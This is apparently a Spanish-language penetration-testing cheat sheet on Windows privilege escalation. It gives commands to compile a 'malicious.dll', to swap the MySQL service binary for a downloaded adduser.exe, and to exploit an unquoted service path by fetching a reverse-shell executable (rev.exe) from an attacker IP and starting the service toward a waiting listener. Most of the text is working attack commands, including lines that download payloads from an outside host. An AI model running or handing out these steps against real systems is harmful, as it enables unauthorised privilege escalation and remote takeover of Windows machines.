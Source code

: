 #### Compilar la DLL (64-bit)

```bash
x86_64-w64-mingw32-g++ -shared -o malicious.dll dllmain.cpp -lws2_32 -static-libgcc -static-libstdc++
```

#### Para 32-bit (si es necesario)

```bash
i686-w64-mingw32-g++ -shared -o malicious32.dll dllmain.cpp -lws2_32 -static-libgcc -static-libstdc++
```


-----


- Movemos el binario mysql original, subimos el nuestro y cambiamos el path del servicio.
- `iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe`: Descargamos el binario.
- `move C:\xampp\mysql\bin\mysqld.exe mysqld.exe`: Movemos el binario original.
- `move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe`: Movemos el binario que queremos ejecutar.

- Ahora o reiniciamos el servicio o reiniciamos la maquina.
- `sc stop mysql`: Reiniciamos el servicio.
- `sc start mysql`: Reiniciamos el servicio.
- O bien reiniciamos la maquina: `shutdown /r /t 0`

-----

## Abusar de binario de un servicio con un directorio con espacios y sin comillas
- Muchas veces los servicios tienen un directorio con espacios y no tienen comillas, lo que nos permite abusar de esto.
- Por ejemplo, si tenemos un servicio que tiene un directorio con espacios y no tiene comillas, podemos abusar de esto cambiando el path del servicio.

```

  Name             : DevService
  DisplayName      : DevService
  Description      : 
  State            : Stopped
  StartMode        : Auto
  PathName         : C:\Skylark\Development Binaries 01\???????.exe
```
- En este caso podemos cambiar el path del servicio a un binario que queramos ejecutar, por ejemplo nc.exe o un archivo exe que ejecute una reverse shell.
- `curl http://192.168.45.210/rev.exe -o Development.exe`
- `sc query DevService`
- `sc Start DevService`
- `sc config DevService binPath= "C:\Skylark\Development Binaries 01\rev.exe"`: OPCIONAL! a veces no es necesario.
- Y del otro lado tenemos el listener escuchando
